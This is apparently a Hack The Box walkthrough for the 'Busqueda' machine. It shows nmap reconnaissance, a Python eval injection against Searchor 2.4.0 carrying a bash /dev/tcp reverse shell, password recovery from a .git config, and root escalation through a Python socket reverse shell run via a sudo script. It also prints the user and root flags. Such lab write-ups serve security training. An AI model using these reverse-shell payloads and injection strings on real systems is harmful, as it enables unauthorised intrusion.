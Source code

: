 # Busqueda Walkthrough ![busqueda](https://github.com/securepadawan/Hack_The_Box/assets/66234098/9ba43378-389b-4aaa-8a46-bbff09ed722b)

# About 

- Operating System: Linux
- Point Value: 30 Total (20 System and 10 for User)
- Level: Easy
- Target IP Address: 10.129.138.207

# Vulnerabilities

- Reserve Shell Exploit

# Walkthrough
<br>

## HTB Pwnbox (Parrot) - User Flag

Open Terminal and then do an nmap scan. `nmap -sV 10.129.138.207`
![busqueda1](https://github.com/securepadawan/Hack_The_Box/assets/66234098/a6a57759-492e-4f63-8472-e121a7bd502f)
<br>
<br>

This nmap scan shows port 80 is open which we can use. When opening the browser go to `10.129.138.207` , it re-directs to `searcher.htb` . 
![busqueda2](https://github.com/securepadawan/Hack_The_Box/assets/66234098/f1c34be1-1e45-4428-abe2-2afab97db482)
<br>
<br>

It is necessary to modify the /etc/hosts. To do this, you will need to do `sudo nano /etc/hosts` and then add `10.129.138.207 searcher.htb`. 
![busqueda3](https://github.com/securepadawan/Hack_The_Box/assets/66234098/5eb73733-7430-4428-814e-597e5be55723)
<br>
<br>

*Note: If you try accessing /etc/hosts just by doing `nano /etc/hosts` to modify and save, you get a Permission denied message.*
![busqueda4](https://github.com/securepadawan/Hack_The_Box/assets/66234098/3c741791-f381-4908-9254-bd6a05359932)
<br>
<br>

After successfully exiting and saving /etc/hosts, go back to the browser and try accessing `10.129.138.207` again. The site comes up and shows the following:
![busqueda5](https://github.com/securepadawan/Hack_The_Box/assets/66234098/6a7b51ae-f489-4600-a09d-97f489fe304e)
<br>
<br>

When scrolling to the very bottom, I saw “Powered by Flash and Searchor 2.4.0”
![busqueda6](https://github.com/securepadawan/Hack_The_Box/assets/66234098/71a99b57-a2e6-4486-97d0-786b5e59ab2b)
<br>
<br>

When doing a search for “Searchor 2.40 exploit”, I found the following [GitHub](https://github.com/jonnyzar/POC-Searchor-2.4.2). I can then go back to my terminal and do a `git clone https://github.com/jonnyzar/POC-Searchor-2.4.2.git` .
![busqueda7](https://github.com/securepadawan/Hack_The_Box/assets/66234098/08b29339-84ca-4786-9a20-e9102ac18ffb)
<br>
<br>

After download complete, I can confirm by doing a `ls` and see POC-Searchor-2.4.2 is saved. I can then change directory (`cd POC-Searchor-2.4.2`) and run another `ls` to see the items listed there.
![busqueda8](https://github.com/securepadawan/Hack_The_Box/assets/66234098/319dafd4-bc05-420e-8770-79963e678742)
<br>
<br>

I can then did `cat [README.md](http://README.md)` to read the file. When reading the file, it mentions Python eval. 
![busqueda9](https://github.com/securepadawan/Hack_The_Box/assets/66234098/dcd87d17-e090-4c5c-b3a6-ae0284a7e2c5)
<br>
<br>

So I did some research and found a site that mentions [Arbitrary Code Execution](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/). I copied the code under Reverse Shell `__import('os').system('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"')`
![busqueda10](https://github.com/securepadawan/Hack_The_Box/assets/66234098/77c3822e-afde-46e2-ab9e-f6b41af41350)
<br>
<br>

I then had to modify this code by adding `'),` , modifying the IP address to `10.10.14.12` (which is my computer) and adding at the end a space and `#` . This is how the whole thing looked like: `'),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.12/4444 0>&1"') #` . I found this by doing combinations of the Arbitrary Code Execution listed above the Reverse Shell.
![busqueda11](https://github.com/securepadawan/Hack_The_Box/assets/66234098/79c5f514-7672-4d62-879f-0a34d31110a1)
<br>
<br>

![busqueda12](https://github.com/securepadawan/Hack_The_Box/assets/66234098/1dc4f4cf-c484-428e-af47-48dd7207567f)
<br>
<br>

After typing in my terminal `nc -lvnp 4444` and then clicking “Search”, the following showed on my terminal. I also typed `whoami` to confirm.
![busqueda13](https://github.com/securepadawan/Hack_The_Box/assets/66234098/597a0a4b-11d7-4418-9b2f-7de81e39f9a1)
<br>
<br>

I then ran the following commands: `ls -la` `cd .git` `ls -la` 
![busqueda14](https://github.com/securepadawan/Hack_The_Box/assets/66234098/f7cd9005-f948-4da5-a2f1-3b736e290306)
<br>
<br>

After running `cat config` , I came across the following. `jh1usoih2bkjaspwe92` turns out is the password
![busqueda15](https://github.com/securepadawan/Hack_The_Box/assets/66234098/964c3cfa-4420-4e4e-87e8-3ab7434713c4)
<br>
<br>

I created a second terminal session and did `ssh svc@10.129.138.207` . When prompted for the ECDSA key fingerprint, typed`yes` . For the password, I put `jh1usoih2bkjaspwe92` .
![busqueda16](https://github.com/securepadawan/Hack_The_Box/assets/66234098/ceff25b5-b74d-4a28-a7cc-c4a7bb4b7dbc)
<br>
<br>

I used the command`whoami` to confirm.
<br>
![busqueda17](https://github.com/securepadawan/Hack_The_Box/assets/66234098/2bc5b580-ecdd-4b59-9467-feed52cacb8f)
<br>
<br>

When running `ls -la` , I saw the file `user.txt`. So I can `cat user.txt` and found the user flag.
![busqueda18](https://github.com/securepadawan/Hack_The_Box/assets/66234098/421103bf-1b95-479d-a2bf-013111f557ff)
<br>
<br>

## User Flag:
<details>
<summary> *Spoiler warning* </summary>
`8bae7d0bac9792fcb1a6fc7bedf96360`
</details>
<br>
<br>

## HTB Pwnbox (Parrot) - Root / System Flag

I went ahead and ran `sudo -l` to see check commands. I see the command `/usr/bin/python3 /opt/scripts/system-checkup.py *` and ran it. Again, it prompted for the password `jh1usoih2bkjaspwe92` .
![busqueda19](https://github.com/securepadawan/Hack_The_Box/assets/66234098/929fc509-6959-4e65-962c-20e3b867fd0d)
<br>
<br>

I ran the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py *` and then the password `jh1usoih2bkjaspwe92` .
![busqueda20](https://github.com/securepadawan/Hack_The_Box/assets/66234098/0587ea85-3518-406a-9367-ab42fd75203a)
<br>
<br>

I ran `cd /opt/scripts` and `ls` and saw full-checkup.sh
![busqueda21](https://github.com/securepadawan/Hack_The_Box/assets/66234098/a35f9791-2cca-487c-887c-9b4c37b8f3d3)
<br>
<br>

I executed `cd -` and `touch [full-checkup.sh](http://full-checkup.sh)` to download the file.
![busqueda22](https://github.com/securepadawan/Hack_The_Box/assets/66234098/c24fab37-7e2f-40aa-a574-b251ee6ff9b5)
<br>
<br>

I research Python Privilege Escalation and found [this](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/) that executes a reverse shell.
`import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")` . I would need to modify to remove “<local-ip>” to replace it with my machine IP address.
![busqueda23](https://github.com/securepadawan/Hack_The_Box/assets/66234098/c5b140a9-50ab-42e4-88e1-f780327d1d17)
<br>
<br>

I opened another terminal (third one if you are counting) and ran `nano full-checkup.sh` to modify the file.
`#!/usr/bin/python3`
`import socket,os,pty;s=socket.socket();s.connect(("10.10.14.12",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")`
<br>
<br>
![busqueda24](https://github.com/securepadawan/Hack_The_Box/assets/66234098/891d0328-b234-45e5-bc27-637d2d827a18)
<br>
*Hint: If you don’t like nano, you can also use gedit. You may need to install it first by running `sudo apt-get install gedit` and then `gedit [full-checkup.sh](http://full-checkup.sh)` to modify the file.*
<br>
<br>

Once you save and exit, you will need to start a server by running `python -m http.server`
![busqueda25](https://github.com/securepadawan/Hack_The_Box/assets/66234098/c8b302a0-fd9a-40bf-a09c-6cbbd92cb553)
<br>
<br>

Switching back to the second terminal, you need to run a wget to pull the file. `wget http://10.10.14.12:8000/full-checkup.sh`
![busqueda26](https://github.com/securepadawan/Hack_The_Box/assets/66234098/56c0f3f0-751b-499d-9afe-c1ed2004a751)
<br>
<br>

You can see on the third terminal shows the `get`
![busqueda27](https://github.com/securepadawan/Hack_The_Box/assets/66234098/a35733d8-0fbf-40a3-8048-e6d0109df87e)
<br>
<br>

On the second terminal, need to modify the permission of the file using `chmod +x full-checkup.sh`
![busqueda28](https://github.com/securepadawan/Hack_The_Box/assets/66234098/5351fe82-55c5-4e60-aa3e-7eb2eb3592b0)
<br>
<br>

Now on the fourth terminal (don’t worry, this is the last one), I ran `sudo su` and `nc -lnvp 4444`
![busqueda29](https://github.com/securepadawan/Hack_The_Box/assets/66234098/246fe3e0-2c3c-4dee-99dd-025c5eca9adc)
<br>
<br>

I switched back to my second terminal and execute the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` . It again requested the password (same thing as above). 
![busqueda30](https://github.com/securepadawan/Hack_The_Box/assets/66234098/da3b43a9-40e7-4e05-97f0-821bd37e5240)
<br>
*Hint: If you get an error here, you didn’t something wrong.*
<br>
<br>

Switching back over to my fourth terminal, I have root@busqueda access. I also ran `whoami` to confirm. 
![busqueda31](https://github.com/securepadawan/Hack_The_Box/assets/66234098/15caf943-fbcc-4dbb-8323-2defd08aa7a2)
<br>
<br>

I then did `cd /root` , `ls -la` and saw the `root.txt` file. So I ran `cat root.txt` and got the root flag.
![busqueda32](https://github.com/securepadawan/Hack_The_Box/assets/66234098/373d7b3d-e863-4bfe-8013-b56b348ac7f7)
<br>
<br>

## Root / System Flag:
<details>
<summary> *Spoiler warning* </summary>
`4e40b0065928fb42069eb24c0c647ddc`
</details>
<br>
<br>


